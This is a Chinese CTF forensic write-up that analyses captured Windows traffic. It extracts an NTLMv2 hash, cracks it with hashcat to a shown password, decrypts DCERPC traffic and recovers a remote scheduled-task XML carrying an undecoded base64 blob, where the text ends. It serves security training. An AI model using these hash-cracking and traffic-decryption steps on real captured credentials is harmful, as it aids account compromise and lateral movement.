# 2025 华为杯中国研究生网络安全创新大赛实网对抗赛 EZ_ATEXEC 详解

**本题是2025年华为杯中国研究生网络安全创新大赛实网对抗赛初赛的一道 Misc 的0解题**

 **本场比赛的话 Misc 方向就只放了这一道题**

**赛后在 `@Tr0jAn` 和 `@疏狂` 两位师傅的帮助下顺利解出了这道题，在此感谢一下二位师傅**

<!--more-->

## 题目名称 EZ_ATEXEC

> 参考链接：
> 
> 1. https://1cepeak.cn/posts/yqds2024-writeup/#ez_ad
> 
> 2. https://z3n1th1.com/2025/01/suctf2025-writeup/#su_ad

附件给了一个 pcapng 流量包，翻看一下发现有 DCERPC 协议中有 NTLMv2 认证的流量



### NTLM 认证部分

直接用 `NTLMRawUnHide.py` 导出哈希值并尝试用 hashcat 爆破



hashcat 爆破可以得到密码：`123qwe!@#Q`



然后到 wireshark 中的 NTLMSSP 导入我们得到的密码




然后这个时候就可以发现`DCERPC`的流量已经被解密了（注意，这里要求 wireshark 版本在 4.0.6 以上，要不然会解码不完整）



我们可以依次到 TaskSchedulerService 的数据包中把完整的数据复制出来



就是这里要注意的是，因为是 Windows 系统下，所以这里的字符集是 utf-16le，复制出来 Cyberchef 解码的时候要注意



我们依次给他复制出来并解码

```xml
<Task version="1.3" xmlns="http://schemas.microsoft.com/windows/2004/02/mit/task">
  <RegistrationInfo>
    <Description>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